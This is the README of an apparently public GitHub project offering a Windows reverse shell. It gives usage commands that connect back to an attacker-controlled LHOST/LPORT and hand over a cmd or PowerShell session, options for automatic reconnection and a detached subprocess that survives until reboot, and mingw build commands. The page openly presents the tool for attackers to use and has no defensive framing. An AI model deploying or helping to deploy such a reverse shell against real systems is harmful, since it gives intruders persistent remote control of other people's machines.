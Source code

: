 # windows-rev-shell
An advanced windows reverse shell. Allows to specify the type of shell (cmd or powershell), can be programmed to automatically attempt to reconnect and can be spawned as subprocess to prevent blocking the terminal
## Usage
One shot <br>
`shell.exe LHOST LPORT <cmd|powershell> 0` <br>
Attempt to reconnect to the specified IP. The last parameter indicates the number of milliseconds between attempts <br>
`shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY` <br>
One shot reverse shell spawned as subprocess to keep the current terminal free. The process is disposed once the attacker closes the connection on his side<br>
`shell.exe LHOST LPORT <cmd|powershell> 0 s` <br>
Spawn a reverse shell subprocess that will periodically attempt to reconnect to the host. The process is indipendent from the original shell and will continue to exist until the machine is rebooted<br>
`shell.exe LHOST LPORT <cmd|powershell> ATTEMPT_DELAY s` <br>
## Building
32 Bit version <br>
`i686-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>
64 Bit version <br>
`x86_64-w64-mingw32-gcc windows.c -o shell.exe -lws2_32` <br>
